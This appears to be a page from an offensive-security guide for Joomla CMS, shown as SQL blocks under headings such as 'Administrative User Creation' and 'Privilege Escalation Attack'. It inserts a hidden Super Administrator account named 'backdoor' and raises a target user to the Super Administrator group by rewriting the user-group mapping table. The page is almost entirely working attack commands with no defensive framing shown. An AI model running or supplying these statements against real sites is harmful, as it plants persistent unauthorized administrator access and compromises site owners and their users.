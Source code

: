 #### Administrative User Creation
```sql
-- Create new Super Administrator
INSERT INTO jos_users (name, username, email, password, registerDate, lastvisitDate, params) 
VALUES ('Administrator', 'backdoor', 'admin@site.com', 
        '2a9336ab8082e19f6e33b7c10b9c9e6f:trd3e4567890123456789012345678901', 
        NOW(), NOW(), '{}');

-- Get new user ID and assign Super Administrator privileges
SET @user_id = LAST_INSERT_ID();
INSERT INTO jos_user_usergroup_map (user_id, group_id) VALUES (@user_id, 8);

-- Verify creation
SELECT * FROM jos_users WHERE username = 'backdoor';
```

---

## Advanced Attack Techniques

### Privilege Escalation via User Groups

#### Understanding Joomla ACL System
```sql
-- User groups hierarchy (ascending privileges)
-- 1: Public
-- 2: Registered  
-- 3: Author
-- 4: Editor
-- 5: Publisher
-- 6: Manager
-- 7: Administrator  
-- 8: Super Administrator

-- Check current user privileges
SELECT u.username, ug.title 
FROM jos_users u 
JOIN jos_user_usergroup_map ugm ON u.id = ugm.user_id 
JOIN jos_usergroups ug ON ugm.group_id = ug.id;
```

#### Privilege Escalation Attack
```sql
-- Escalate current user to Super Administrator
UPDATE jos_user_usergroup_map 
SET group_id = 8 
WHERE user_id = (SELECT id FROM jos_users WHERE username = 'target_user');

-- Alternative: Add new mapping (preserves existing)
INSERT INTO jos_user_usergroup_map (user_id, group_id) 
VALUES ((SELECT id FROM jos_users WHERE username = 'target_user'), 8);
```
